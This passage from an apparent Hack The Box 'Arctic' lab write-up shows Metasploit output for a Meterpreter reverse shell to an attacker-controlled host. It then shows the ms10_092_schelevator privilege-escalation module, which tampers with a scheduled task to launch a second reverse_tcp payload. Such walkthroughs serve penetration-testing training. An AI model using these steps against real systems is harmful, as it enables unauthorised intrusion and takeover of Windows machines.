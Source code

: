 Switch back to msfconsole, should see the shell connecting:

```txt
[*] Sending stage (179779 bytes) to 10.10.10.11
[*] Meterpreter session 1 opened (10.10.14.31:444 -> 10.10.10.11:55017) at 2019-07-30 22:34:16 +0100
```

Now we have a proper reverse TCP shell to box, let's have a look:

```text
meterpreter > sysinfo
Computer        : ARCTIC
OS              : Windows 2008 R2 (Build 7600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x64/windows

meterpreter > getuid
Server username: ARCTIC\tolis
```

Put current session to background so we can run priv esc exploit:

```text
meterpreter > background
[*] Backgrounding session 1...

msf5 exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf5 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms10_092_schelevator) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms10_092_schelevator) > set LHOST 10.10.14.31
LHOST => 10.10.14.31
msf5 exploit(windows/local/ms10_092_schelevator) > set LPORT 1234
LPORT => 1234
msf5 exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.31:1234
[*] Preparing payload at C:\Users\tolis\AppData\Local\Temp\SBrfJlgmrqFzj.exe
[*] Creating task: OmogtONV5
[*] SUCCESS: The scheduled task "OmogtONV5" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\OmogtONV5...
[*] Original CRC32: 0xadd0c21d
[*] Final CRC32: 0xadd0c21d
[*] Writing our modified content back...
[*] Validating task: OmogtONV5
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] OmogtONV5                                1/9/2019 8:35:00       Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "OmogtONV5" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "OmogtONV5" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (179779 bytes) to 10.10.10.11
[*] SUCCESS: Attempted to run the scheduled task "OmogtONV5".
[*] SCHELEVATOR
```